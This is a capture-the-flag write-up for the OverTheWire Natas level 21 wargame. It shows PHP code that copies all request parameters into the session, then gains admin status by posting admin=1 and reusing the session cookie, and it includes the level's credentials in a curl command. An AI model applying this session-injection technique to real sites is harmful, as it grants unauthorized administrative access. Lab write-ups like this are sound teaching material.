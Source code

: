 ```php
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?> 
```

The application save key value pairs from `$_REQUEST` to `$_SESSION` by:

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

Login as an admin required `$_SESSION["admin"] == 1` -> `$_REQUEST["admin"] == 1`

Custom input form to `<input name="admin" value="1">` -> POST -> get response with parameter `?debug`:

```
[DEBUG] Session contents:
Array ( [align] => center [fontsize] => 100% [bgcolor] => yellow [admin] => 1 [submit] => Update )
```

Oh, `[admin] => 1` is should be ok, let's see the response:

```
GET /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: keep-alive
Cookie: __utma=176859643.1954634464.1645363414.1646503128.1646533829.12; __utmz=176859643.1646533829.12.8.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); PHPSESSID=2tfpv93p619l71uffvd1675uh5
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Get cookie `PHPSESSID=2tfpv93p619l71uffvd1675uh5` and POST to http://natas21.natas.labs.overthewire.org/index.php:

```shell
curl --user natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21.natas.labs.overthewire.org/index.php --cookie "PHPSESSID=2tfpv93p619l71uffvd1675uh5"
```
